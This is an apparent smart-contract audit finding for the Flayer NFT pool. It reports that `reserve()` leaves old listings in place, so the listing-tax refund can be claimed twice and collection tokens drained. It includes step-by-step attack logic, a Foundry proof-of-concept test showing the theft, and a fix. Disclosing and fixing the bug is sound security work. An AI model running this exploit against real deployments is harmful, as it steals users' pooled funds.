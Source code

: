 Crazy Chiffon Spider

High

# Malicious user can drain the Flayer pool, because reserve() does not delete old listing.

## Summary
The `reserve()` operation currently does not delete the old listing, so this opens a backdoor, which allows draining the CT tokens from the pool by receiving the refund for the fees twice.

## Vulnerability Detail

Here is a quick overview of how this is possible:
In the Flayer pool, listing tax is deposited when the listing is created; it's subtracted from the CT tokens that the user is supposed to receive [code snippet](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L149-L151).

And then, if a "closing listing" operation occurs, which can happen via `fillListings`, `cancelListings`, `relist()`, and `reserve()`, we then distribute the fees, some part of it to the UniswapV4 pool for the Liquidity providers, and the not used part of the fees we give as a refund to the owner of the listing. This "not used" part is calculated based on the time that has passed.
Example [code](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L573-L577) in `fillListings()`.

Here is the flow for the attack:
- The owner lists their NFT and pays tax. So they receive `1CT `- `0.02CT `(listing fees) = +`0.98CT`.
- Uses another address and call to reserve it (as an owner cannot reserve it themselves ) The Listings contract sends a full refund to the owner since no time has passed. -> +`0.02CT`.
- Then the reserver withdraws it from the ProtectedListings contract using the unlock functionality, and pays -`1CT`.
- Now we have gained nothing, but have not lost anything; however, the listing is still in the _listings[] array, as the [reserve()](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L690-L759) has not deleted it.
- The malicious actor now deposits it into Locker.sol and gets +`1CT`.
- Then he can fill the deposit, since the _resolveListingTax() in fillListings() ([see here](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L504-L505)) will be called with the same tokenId but the owner is not address(0), since we have not deleted the listing via reserve(), even though we directly deposited it into the `Locker.sol`, we will still skip this check and pay fees:
```solidity
    function _resolveListingTax(Listing memory _listing, address _collection, bool _action) private returns (uint fees_, uint refund_) {
        // If we have been passed a Floor item as the listing, then no tax should be handled
@>>     if (_listing.owner == address(0)) {
            return (fees_, refund_);
        }
```
-> Pay `1CT`, which we received when using deposit() in Locker.sol and refund `0.02CT` again to the owner via escrow functionality.
### Coded POC
Add this to Listings.t.sol and run with `forge test --match-test test_DrainContractFromReserveVuln -vvvv`
```solidity
    function test_DrainContractFromReserveVuln() public {
        //===========Setup===========
        listings.setProtectedListings(address(protectedListings));
        ICollectionToken token = locker.collectionToken(address(erc721a));
        //Ensure the listings already have some balance from fees, so we can cover expenses from our hack.
        deal(address(token), address(listings), 5 ether);
        uint startBalanceListings = token.balanceOf(address(listings));

        address _owner = address(0x77);
        address _ownerAlt = address(0x78);
        uint _tokenId = 2555;

        assertEq(token.denomination(), 0);
        uint startBalance = token.balanceOf(_owner);

        // reserve some CT balance for the alt, for ease of testing. 
        // We need alt acc to avoid the msg.sender check in the reserve() function.
        uint startBalanceAlt = 10 ether; 
        deal(address(token), _ownerAlt, startBalanceAlt);

        erc721a.mint(_owner, _tokenId);

        //===========Setup===========

        vm.startPrank(_owner);

        erc721a.approve(address(listings), _tokenId);
        Listings.Listing memory listing = IListings.Listing({
            owner: payable(_owner),
            created: uint40(block.timestamp),
            duration: 50 days,
            floorMultiple: 400 
        });

        // Create our listing
        _createListing({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(_tokenId),
                listing: listing
            })
        });
       vm.stopPrank();

        skip(1); // Owner alt acts in second transaction.

        vm.startPrank(_ownerAlt);

        //--Reserve the NFT--//
        token.approve(address(listings), 5 ether);
        listings.reserve({
            _collection: address(erc721a),
            _tokenId: _tokenId,
            _collateral: 0.05 ether
        });
        //Now we should have succesfully reserved it, without deleting the old listing from the array in Listings.sol

        //--Unlock the NFT and withdraw it--//
        token.approve(address(protectedListings), 2 ether);
        protectedListings.unlockProtectedListing(address(erc721a), _tokenId, true);

        //--Now lets deposit it into the Locker.sol on behalf of the owner--//
        erc721a.setApprovalForAll(address(locker), true);
        locker.deposit(address(erc721a), _tokenIdToArray(_tokenId), _owner);

        // Its ready to be bought!
        uint[][] memory _tokenIdsOut = new uint[][](1);
        _tokenIdsOut[0] = new uint[](1);
        _tokenIdsOut[0][0] = _tokenId;

        token.approve(address(listings), 5 ether);
        listings.fillListings(
            IListings.FillListingsParams({
                collection: address(erc721a),
                tokenIdsOut: _tokenIdsOut
            })
        );

        vm.stopPrank();

        //Now lets withdraw the doubled refund amount.
        vm.startPrank(_owner);
        listings.withdraw(address(token), 4285713988095238094);
        
        //Done. Hacked successfully. Now lets confirm:
        assertTrue((token.balanceOf(_owner) + token.balanceOf(_ownerAlt)) > startBalanceAlt + startBalance);
        assertEq((token.balanceOf(_owner) + token.balanceOf(_ownerAlt)), 10642856845238095237);
        assertTrue(token.balanceOf(address(listings)) < startBalanceListings);
        // 10642856845238095237 - 10000000000000000000 = 0.642856845238095237 CT stolen.
    }
``` 

## Impact
All the CT tokens from a collection pool can be FULLY drained, by repeating this operation again and again.
We can easily steal `0.642856845238095237 CT` in one go, as shown in the **PoC**, if a floor price is worth ~ `$2000`, we drain `$1280` in just one iteration.

## Tool used

Manual Review

## Recommendation
```diff
    function reserve(address _collection, uint _tokenId, uint _collateral) public nonReentrant lockerNotPaused {
    ...Skipping code...
            if (listingPrice > listingFloorPrice) {
                unchecked {
                    collectionToken.transferFrom(msg.sender, oldListing.owner, listingPrice - listingFloorPrice);
                }
            }
            
            // Delete listing
+          delete _listings[_collection][_tokenId];
           unchecked { listingCount[_collection] -= 1; }
        }
...Skipping code....
```
